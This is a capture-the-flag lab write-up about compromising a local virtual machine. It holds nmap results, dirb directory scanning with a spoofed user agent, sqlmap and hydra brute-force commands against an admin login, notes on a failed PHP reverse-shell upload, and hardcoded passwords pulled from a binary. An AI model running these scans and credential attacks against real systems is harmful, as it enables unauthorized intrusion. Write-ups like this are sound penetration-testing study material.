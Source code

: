 Without further ado.

Kicked off the nmap scan

```
# Nmap 7.80 scan initiated Sun Oct  4 02:37:02 2020 as: nmap -p- -sCV -O -A -oA /home/kali/simple_wall/enum/nmap/tcpscan.2020-10-04.02:37:02 172.16.2.42
Nmap scan report for 172.16.2.42
Host is up (0.0015s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 98:b7:f5:6b:0d:58:1d:7b:58:7d:1a:99:fb:b1:8f:04 (RSA)
|   256 66:b4:4b:40:e6:c9:76:93:31:aa:fc:ff:9a:40:a9:f9 (ECDSA)
|_  256 55:c6:b2:01:0f:16:1c:68:96:e2:bb:b1:fe:ff:59:c2 (ED25519)
53/tcp   open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Eskwela Template
5355/tcp open  llmnr?
MAC Address: 08:00:27:ED:95:60 (Oracle VirtualBox virtual NIC)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

What these mean  
**22/SSH** is usually not going to net easy wins in CTF's.  
**53/TCP** is also not a usual vector although we have seen a recent CVE for a Windows DNS RCE based on a longtime bug in the OS. Likely a rabbithole to pursue further.  
**80/HTTP**: Web apps are always a rich source of vulns, so this is immediately high priority. We get a version for the apache http daemon which could turn up a vuln as a result of the -sCV tag the (sC triggers some basic NSE scripts)  
**5355/LLMNR** link-local multicast name resolution is a service that supports DNS on local subnets [wikipedia](https://en.wikipedia.org/wiki/Link-Local_Multicast_Name_Resolution). Most likely this is working in conjunction with the DNS service on port 53. It's not immediately clear why the box is running this, and ultimately the exploitation vector had nothing to do with it.

## Attacking TCP/80/HTTP

My typical procedure is to run a directory crawler that supports a proxy such as dirb and then have ZAP or BurpSuite proxy the traffic, causing them to automatically construct a nice site map. In addition, this helps to seed the spidering features on both of those applications:

```
dirb https://172.16.2.42 /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt -a "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36" -p http://127.0.0.1:8080

```

\*\*Note\*\* when proxying a scanner like this, make sure you filter 404s out of the site map before starting. If not done, your site map will fill up with 1000s of entries for 404 responses. Burp filters 4xx by default (which could be too much as 403s can be very useful) but ZAP doesn't.

In addition, I picked at random one of the most common/popular user agents. This is to avoid the "script-kiddie" mistake of brute forcing a page and advertising it with a user agent that names your brute forcing tool.

a /administrator/ page was picked up by the above wordlist. It redirected to an index.php which possessed a login form, which I manually tested for SQL injectability.

```bash
sqlmap 172.16.2.42/administrator/index.php --forms
```

Manual and automated injection failed so I attempted to brute force it by testing out some predictable creds and passwords. i started off with I also used Cewl to scrape username/password ideas, and made lists with that.

```bash
cewl 172.16.2.42 > cewl_output.txt

# some manual parsing, extracting things which look like usernames into  cewl_usernames.txt and putting the entire dump into cewl_passwords.txt

hydra -cewl_usernames.txt -P cewl_passwords.txt 172.16.2.42 http-post-form "/administrator/index.php:username=^USER^&pass=^PASS^:F=Failed" -e nsr -t27 -f -I
```

No dice

```bash
for val in (ls /usr/share/wordlists/SecLists-master/Passwords/Common-Credentials/10-million*.txt)
            echo "****************************** $val ******************************"
            hydra -lmrrobot -P $val 172.16.2.42 http-post-form "/administrator/index.php:username=^USER^&pass=^PASS^:F=Failed" -e nsr -t27 -f -I
    end

```

anused zsteg to decode challenge  
[2020-Oct-04 06:12:14 UTC] > found some semi useful comments on the admininstrator/index.php tab. also found a flag in /images/flag.txt.txt. gained appreciation for nmap --script http-\* particularly the comment enum functionality. would like to build out comment function a bit further  
[2020-Oct-09 05:44:06 UTC] > stuck trying to upload shell. form accepts images and server is running php. php rev shell not working. modifying extension to php allows upload, but server complains of errors in the png file. listerner doesnt catch reverse shell.  
[2020-Oct-09 05:45:58 UTC] > had success with the zsteg tool after trying close to 10 tools that couldn't identify the stego in hidden.png. embarrassingly actually contacted author of the box, who also suggested zsteg. has been added to arsenal  
[2020-Oct-09 06:01:52 UTC] > binary observed in www-data directory contained the strings Digite a senha: MrR0b0t121 n Senha errada n Senha Correta n Password@1238  
[2020-Oct-09 06:02:16 UTC] > home directory also contained a dot file indicating the user has sudo rights

```zsh
for x in `cat /usr/share/wordlists/SecLists-master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt`; do echo $x|./buffer|grep -vi "errada"|grep -vi "Digite a senha"|grep -vi "^\s*$"; done
```
